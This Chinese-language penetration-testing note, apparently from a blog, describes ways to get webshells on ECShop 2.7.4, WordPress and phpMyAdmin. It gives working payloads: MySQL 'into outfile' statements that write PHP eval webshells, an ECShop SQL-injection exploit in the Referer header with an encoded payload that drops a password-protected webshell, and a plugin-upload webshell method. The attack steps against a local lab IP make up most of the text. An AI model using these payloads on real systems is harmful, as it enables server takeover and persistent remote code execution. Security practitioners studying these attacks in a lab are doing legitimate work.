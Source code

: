     #报错获取网站物理路径
    use mysql;
    #写shell
    select "<?php phpinfo();?>" into outfile 'C:\\inetpub\\getshell\\8103-ECShop\\ECShop_2.7.4_UTF8_beta1\\upload\\x.php'
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020062823530811.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)**2.修改文件**-
库项目管理》配送方式-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628235345252.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
连接：http://192.168.1.10:8103/myship.php

**3.前台getshell**-
http://192.168.1.10:8103/user.php》刷新抓包》发送repeater：

    exp：
    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628235505233.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)会在网站根目录下生成1.php一句话木马，密码1337-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628235536257.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

## wordpress上传插件

安装插件》上传插件》插件马(正常插件+大马压缩包)》上传成功

    #插件马位置：
    ./wp-content/plugins/alipay-donate/webshell.php
    
        

## phpmyadmin写shell

phpmyadmin 常见路径：phpmyadmin、pma、pmd、pm、phpmyadmin+版本号。或者端口号搭建888/999/8888/777。可尝试爆破登录：

    #写shell语句
    select '<?php eval($_POST[cmd]);?>' into outfile 'D:\SOFT\webbuild\php\WWW\aa.php'
    
        

**寻找网站根目录**-
1.找mysql安装目录

    select @@basedir;
    
        

2.根据mysql安装路径推理出apache配置文件（记录了网站根目录）

    ./apache/conf/https.conf
    
        

3.使用某个数据库，创建一个表用来读取apache的配置文件
